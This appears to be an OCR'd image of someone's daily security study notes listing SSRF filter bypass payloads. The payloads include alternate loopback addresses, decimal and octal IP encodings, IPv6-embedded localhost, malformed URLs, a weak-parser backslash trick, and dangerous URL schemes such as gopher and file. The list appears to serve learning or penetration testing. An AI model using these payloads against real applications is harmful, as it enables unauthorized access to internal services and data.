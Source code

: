 Daily Notes : Day 47 
SSRF BYPASSES part1 

1: Bypass localhost with CIDR
http://127.127.127.127
http://127.0.1.3

2: Bypass using a decimal IP location
http://0177.0.0.1/%0Ahttp://2130706433/%20=%20http://127.0.0.1%0Ahttp://3232235521/%20=%20http://192.168.0.1%0Ahttp://3232235777/%20=%20http://192.168.1.1 

3: IPv6/IPv4 Address Embedding
http://[0:0:0:0:0:ffff:127.0.0.1]

4: Bypass using malformed urls
localhost:+11211aaa%0Alocalhost%3A00011211aaaa

5: Bypass against a weak parser
http://127.1.1.1:80%5C@127.2.2.2:80/

6: SSRF exploitation via URL Scheme
File:///
Dict://
Sftp:// 
Tftp://
Ldap://
Gopher://